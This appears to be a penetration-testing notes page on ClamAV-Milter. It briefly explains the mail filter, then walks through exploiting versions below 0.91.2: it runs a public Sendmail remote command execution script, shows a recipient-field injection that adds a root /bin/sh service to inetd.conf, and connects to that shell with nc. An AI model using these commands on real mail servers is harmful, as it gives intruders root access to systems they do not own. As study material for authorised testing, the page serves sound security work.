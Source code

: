 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# ClamAV

[ClamAV-Milter](https://linux.die.net/man/8/clamav-milter) is a **mail filtering daemon** that connects ClamAV, an open-source antivirus engine, with a mail transfer agent (MTA) such as [Sendmail](https://linux.die.net/man/8/sendmail.sendmail). Its role is to scan email content as it flows through the MTA, using the Milter protocol to hook into the mail processing pipeline. This protocol allows the milter to examine or modify messages during delivery without directly handling SMTP traffic. ClamAV-Milter does not open any network ports of its own by default; instead, it communicates with the MTA over a local Unix socket, such as `/var/run/clamav/clamav-milter.ctl`.

## < 0.91.2

{% code overflow="wrap" %}
```bash
# Identify the PoC
$ searchsploit clamav-milter
​
Sendmail with clamav-milter < 0.91.2 - Remote Command Execution | multiple/remote/4761.pl
​
# Execute the PoC
$ perl 4761.pl <target>
<SNIP>
250 2.1.5 <nobody+"|echo '31337 stream tcp nowait root /bin/sh -i' >> /etc/inetd.conf">... Recipient ok
<SNIP>
​
# Connect to the listening socket
$ nc <target> 31337      
id
uid=0(root) gid=0(root) groups=0(root)
```
{% endcode %}
